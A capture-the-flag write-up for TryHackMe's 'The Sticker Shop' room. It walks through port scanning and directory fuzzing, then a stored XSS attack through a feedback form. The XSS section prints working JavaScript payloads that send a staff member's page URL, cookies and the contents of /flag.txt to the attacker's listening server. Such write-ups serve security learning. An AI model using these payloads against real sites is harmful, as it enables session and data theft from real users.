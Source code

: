 # Write-Up: The Sticker Shop
**Date:** 01/27/2025

**User:** [JAKK](https://tryhackme.com/p/JAKK)

[The Sticker Shop](https://tryhackme.com/r/room/thestickershop) is an easy-ranked CTF box that challenges us to access a flag at a specified location of the web server. It introduces us to a common web vulnerability found in websites, seldom being showcased on TryHackMe.

## Reconaissance

### Port Scan
We start by scanning the target for open ports using *nmap*.
```
nmap -sV -sC -T4 -p0-65535 sticker.thm
```

```
Host is up (0.037s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.8.10)
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see two open ports with the web service being offered on `8080`. Let's open the page with a web browser.

### Inspecting the Website
![Homepage of hosted website](img/StickerShop-InitialPage.png)

Apart from two buttons and cat images, there is nothing to see.

- We're not able to inspect the `/static/` route or its subfolders, such as `/static/images/`, which contains the image files. The images are sequentially named, i.e. `cat_sticker_1.png`, `cat_sticker_2.png`. The absence of `cat_sticker_3.png` likely tells us that there are no other images. Since the file format is PNG, no secret information could have been embedded via steganography.
- Inspecting the buttons, we can see that *Home* leads us to `/`, i.e. the position we're currently at, while *Feedback* brings us to `/submit_feedback`. There we find an input form that allows us to submit feedback, which is sent to the same URI via POST.

![Feedback page of the hosted website](img/StickerShop-FeedbackPage.png)

- If we try to access the flag under the known location (`http://sticker.thm:8080/flag.txt`), we receive the response code `401`, which tells us that we are not authorized to access the flag.

### Fuzzing
Let's see if we can find more resources on the server with `gobuster`. Since no domain name for the website is known, we can only enumerate directories, not subdomains. Additionally, we will also look for files with the extensions `.txt`, `.py`, `.bak` and `.sql`, to find potential backups or source code.

```
gobuster dir -u 'http://sticker.thm:8080/' -w '/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt' -x 'txt,py,bak,sql'
```

As a result, we only find the already known path `/flag.txt`.

In general, it's also worth checking if there are any hidden GET or POST parameters being evaluated on the known routes, which can be done with [arjun](https://github.com/s0md3v/Arjun).

```
arjun -u http://sticker.thm:8080/submit_feedback -m POST
```
```
[*] Scanning 0/1: http://sticker.thm:8080/submit_feedback
[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[+] Extracted 1 parameter from response for testing: feedback
[*] Logicforcing the URL endpoint
[!] No parameters were discovered.
```

Unfortunately, no hidden parameter can be found.

## Tampering With the Input Form
When we send feedback via the input form (on `/submit_feedback`), we're being told that the message will be evaluated shortly by the site's staff. It could be possible that the person doing this might use a web browser to access a restricted section of the website, in which case we can try to inject some Javascript code into the staff's rendered webpage by including code in our message. This of course only works if the submitted message isn't sanitized by the server and just handed down. To test this, we will start a simple webserver with Python and see if requests on it are being made.

We start the server with the following command.
```
python -m http.server 9000
```

We then send the following message via the form. The code included in the `<script>` tags prompts an HTTP request to our local server performed by the staff. Depending on the fact if a request is made, we can determine if the XSS attack works.
```
<script>
var req = new XMLHttpRequest();
req.open("GET", "http://10.9.4.33:9000/" + window.location.href, false);
req.send();
</script>
```
And indeed, we can see that the Javascript code of our submitted feedback is executed.
```
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.10.194.50 - - [27/Jan/2025 10:23:56] code 404, message File not found
10.10.194.50 - - [27/Jan/2025 10:23:56] "GET /http://127.0.0.1:8080/view_feedback HTTP/1.1" 404 -
```
Trying to navigate to the newly found route, `/view_feedback`, doesn't give us more information about the site since authentication is required. But now we can try to elevate the XSS to reach our goal!

Trying the easiest thing, we use the following feedback message to dump the session cookies of the staff. This only works if the creators of the website forgot to set the cookies as HttpOnly, allowing Javascript to access them.
```
<script>
var req = new XMLHttpRequest();
req.open("GET", "http://10.9.4.33:9000/" + document.cookie, false);
req.send();
</script>
```
Unfortunately, we reveive a request on `/`, meaning that the session cookies, if existent, can't be read by our injected code.

But since the staff obviously can access the `/view_feedback` route, which requires authentication, he will likely be able to also access `/flag.txt`. We therefore extend our payload a little bit and let the staff's browser make a request for the flag and then send us its value.

```
<script>
var flag_req = new XMLHttpRequest();
flag_req.open("GET", "/flag.txt", false);
flag_req.send();
var share_req = new XMLHttpRequest();
share_req.open("GET", "http://10.9.4.33:9000/" + flag_req.responseText, false);
share_req.send();
</script>
```

It's important to reference the flag by its relative path, otherwise the payload will not work. This is probably due to CORS rules, preventing the access to the file from outside the domain. Finally, we retrieve the flag from the requested URI that we can inspect on our local server.
```
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.10.194.50 - - [27/Jan/2025 10:33:07] code 404, message File not found
10.10.194.50 - - [27/Jan/2025 10:33:07] "GET /THM%7B-REDACTED_FLAG-%7D HTTP/1.1" 404 -
```

Note that the string is URL encoded. We can decode it with hURL.
```
hURL -u "THM%7B-REDACTED_FLAG-%7D"
Original    :: THM%7B-REDACTED_FLAG-%7D
URL DEcoded :: THM{-REDACTED_FLAG-}
```

## Conclusion
I really enjoyed this CTF, since XSS attacks are quite rare on TryHackMe and similar platforms, probably due to the necessary user interaction which needs to be emulated. Thanks to TryHackMe user [toxicat0r](https://tryhackme.com/p/toxicat0r) for creating this room.

